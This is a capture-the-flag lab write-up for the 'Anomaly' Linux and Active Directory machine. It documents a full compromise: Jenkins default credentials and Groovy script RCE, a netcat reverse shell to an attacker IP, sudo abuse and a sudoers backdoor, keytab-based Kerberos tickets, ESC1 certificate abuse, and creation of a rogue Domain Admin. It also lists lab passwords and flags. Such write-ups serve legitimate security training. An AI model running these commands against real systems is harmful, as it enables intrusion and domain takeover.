# Lab Report - Anomaly


# Overview 
---
- **Difficulty**: Medium
- **Platform**: Linux and Windows - Active Directory
- **Link**: https://www.hacksmarter.org/courses/336f34fa-2097-4b41-9e05-16698e68dcea

## Resolution Summary 
---
We gained access to a Jenkins instance running on port 8080 using the `admin:admin` credentials. We used the console script to gain RCE on the target, then we escalated to root by abusing a custom script that we could run as sudo. Next, we found a keytab file, retrieved it on our local machine, requested a TGT for `brandon_boyd` and exported the resulting ccache file. We used NetExec to enumerate users and  found a password in `brandon_boyd`'s description field. Afterwards, we discovered that the `Domain Computers` had enrollment rights on a template vulnerable to ESC1. Therefore, we created a computer, which automatically got added to the said group, then requested a certificate for the `anna_molly` user (Domain Admins member). Using the certificate, we gained an LDAP shell then we created and added a user to the Domain Admins group, successfully compromising the domain.

# Walkthrough
---
## Host: Anomaly-Web
---
- To begin with, we performed an Nmap scan to find available services, looking for an entry point to the first target host. We discovered that a web application was running on port 8080.
```bash
sudo nmap 10.0.21.51 -p- -vv
```

- After accessing the web application, we discovered that Jenkins was running. We attempted the credentials `admin:admin` and successfully gained access to the dashboard: 
```bash
http://10.0.21.51:8080/login?from=%2F
```
<p align="center">
  
</p>
<p align="center">
  
</p>
- Therefore, we could validate that we had the ability the execute OS commands through the script console by navigating to the following page: 
```bash
http://10.0.21.51:8080/script
```
- And using the following code: 
```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```
<p align="center">
  
</p>
- Knowing that, we set up a listener: 
```bash
penelope -p 443
```

- And we executed the following code inside the script console in order to gain a reverse shell on the target: 
```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.200.117.119 443 >/tmp/f"] as String[])
p.waitFor()
```
<p align="center">
  
</p>
- We discovered that we were able to run a custom binary with sudo: 
```bash
sudo -l 
```
<p align="center">
  
</p>
- We inspected the binary, and it seemed to be calling/executing the file we provided as argument: 
```bash
strings /usr/bin/router_config
```
<p align="center">
  
</p>
- Hence, we attempted to execute the `id` command by providing it as an argument, and we confirmed that we had root-privileged command execution: 
```bash
sudo /usr/bin/router_config id
```
<p align="center">
  
</p>
- Therefore, we were could gain a root shell by making the `/bin/bash` a SUID binary and confirmed that we were successful in doing so: 
```bash
echo 'chmod +s /bin/bash' > /tmp/root.sh
chmod +x /tmp/root.sh
sudo /usr/bin/router_config /tmp/root.sh
ls -la /bin/bash
```
<p align="center">
  
</p>
- Finally, we accessed a root shell session with: 
```bash
/bin/bash -p 
id
```
<p align="center">
  
</p>
- We collected the first flag: 
```bash
cat /root/user.txt
```
<p align="center">
  
</p>
- To gain a proper session as root, we first gave ALL sudo permissions to jenkins (using our previous root shell), then escalated to root: 
```bash
echo "jenkins ALL=(ALL:ALL) NOPASSWD: ALL" | tee /etc/sudoers.d/jenkins
exit
sudo -l
sudo su
```
<p align="center">
  
</p>
- After enumerating the system for sensitive files that may help us gain a foothold into the AD domain, we found a keytab file, which seemed to hold information for the `brandon_boyd` user: 
```bash
find / -name "*keytab*"
klist -k -t /etc/krb5.keytab
```
<p align="center">
  
</p>
- Therefore, we transferred the file to our attacking machine by serving it from the target machine, then downloading it from our attacking machine:
- On the target: 
```bash
python3 -m http.server 80
```
- On our attacking machine:
```bash
wget http://10.0.21.51/krb5.keytab
```

- We used that keytab file to request a TGT for the `brando_boyd` user.
- For that purpose, we needed to: 
- Edit our `/etc/krb5.conf` file: 
```bash
sudo cat /etc/krb5.conf
#Output
[libdefaults]
        default_realm = ANOMALY.HSM
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
    rdns = false
    dns_canonicalize_hostname = false
        fcc-mit-ticketflags = true

[realms]        
        ANOMALY.HSM = {
                kdc = Anomaly-DC.ANOMALY.HSM
        }

[domain_realm]
        .ANOMALY.HSM = ANOMALY.HSM
```

- Edit our `/etc/hosts` file: 
```bash
sudo echo '10.0.30.57      ANOMALY.HSM Anomaly-DC.ANOMALY.HSM' >> /etc/hosts 
```

- Then we could request a TGT for that user and verify that it was indeed saved: 
```bash
kinit Brandon_Boyd@ANOMALY.HSM -k -t krb5.keytab
klist
```
<p align="center">
  
</p>
- Once it was done, we exported the generated ccache into our environment variable: 
```bash
export KRB5CCNAME=/tmp/krb5cc_1000
```

## Host: Anomaly-DC
---
- We confirmed that we had a foothold on the domain before any further operations: 
```bash
nxc smb 10.0.30.57 -k --use-kcache
```
<p align="center">
  
</p>
- Note: we attempted to collect bloodhound data, but we were could not do so using our ccache file (required a username and a password for authentication).
<p align="center">
  
</p>
- We enumerated users and discovered what it looked like a password in `Brandon_Boyd`'s description field. We tested it and it was indeed the user's password: 
```bash
nxc smb 10.0.30.57 -k --use-kcache --users
nxc smb 10.0.30.57 -u Brandon_Boyd -p '3edc4rfv#EDC$RFV'
```
<p align="center">
  
</p>
- From there, we collected bloodhound data in order to map out possible attack vectors starting from our current user: 
```bash
nxc ldap 10.0.30.57 -u Brandon_Boyd -p '3edc4rfv#EDC$RFV' --bloodhound --collection all --dns-server 10.0.30.57
```
<p align="center">
  
</p>
- While bloodhound did not highlight any specific path, it did reveal that we may encounter and ADCS related vulnerability (since we saw that we had enrollment rights over some certificate templates): 
<p align="center">
  
</p>
- Therefore, we enumerated any vulnerable certificate template we could abuse to elevate our privileges, and we found that the `CertAdmin` template was vulnerable to ESC1: 
```bash
certipy find -u 'Brandon_Boyd@anomaly.hsm' -p '3edc4rfv#EDC$RFV' -dc-ip '10.0.30.57' -vulnerable -enabled -hide-admins
cat 20261106155316_Certipy.txt
```
<p align="center">
  
</p>
- What was important to notice here is that we couldn't exploit the ESC1 vulnerability here, since we were not part of the `Domain Computers` group. 

- Therefore, we attempted to add a machine to the domain, since any created computer account gets added to the `Domain Computers` group, which would allow us to abuse the ESC1 vulnerability: 
```bash
bloodyad -H 10.0.30.57 -d anomaly.hsm -u Brandon_Boyd -p '3edc4rfv#EDC$RFV' add computer ATTACKER 'Password123!'
```

- Afterwards, we enumerated the members of the `Domain Computers` group, and confirmed that our newly created computer was a member: 
```bash
nxc ldap 10.0.30.57 -u Brandon_Boyd -p '3edc4rfv#EDC$RFV' --groups "Domain Computers"
```
<p align="center">
  
</p>
- Note: For the ESC1 attack, we choose `anna_molly` because she was part of the Domain Admins group, and the `Administrator` account was disabled:
<p align="center">
  
</p>
<p align="center">
  
</p>
- Having now satisfied the conditions, we attempted to exploit it by generating a certificate for the `anna_molly` user.
```bash
certipy req -u 'ATTACKER$@anomaly.hsm' -p 'Password123!' -dc-ip '10.0.30.57' -target 'Anomaly-DC.anomaly.hsm' -ca 'anomaly-ANOMALY-DC-CA-2' -template 'CertAdmin' -upn 'anna_molly@anomaly.hsm' -sid 'S-1-5-21-1496966362-3320961333-4044918980-1105'
```
<p align="center">
  
</p>
- Note: we could not immediately use the certificate to retrieve a TGT for `anna_molly`, as it seemed that PKINIT was not supported by/enabled on the DC.
<p align="center">
  
</p>
- We authenticated using the certificate and gained an LDAP shell. To fully compromise the domain, we created a user and added him to the Domain Admins group: 
```bash
certipy auth -pfx anna_molly.pfx -dc-ip 10.0.30.57 -ldap-shell
add_user hacker
add_user_to_group hacker "Domain Admins"
```
<p align="center">
  
</p>
- We gained an elevated shell session using RDP (by launching PowerShell as administrator) and retrieved the last flag: 
```bash
xfreerdp3 /v:10.0.30.57 /u:hacker /p:'Z.]D4C@<jteP?Fu'
cat C:\Users\Administrator\Desktop\root.txt
```
<p align="center">
  
</p>
# Trophy 
---
**User.txt → `ZmxhZ3toMWRkM25fcjRuZDBtXzl4N3BRen0=`**  

**Root.txt → `ZmxhZ3t3aW5kb3dzX2FkbWluXzdmOWIyWH0=`**

# Lessons Learned
---
 - Sometimes, bloodhound may not reveal sufficient information. Therefore, it is always recommended to complement with manual enumeration.
	 - Here, manual enumeration of vulnerable templates helped us build the attack path (by noticing that the `Domain Computers` group  had excessive rights over a template, which could be abused to exploit ESC1)

- Computers created in an AD domain automatically get added to the `Domain Computers` group.
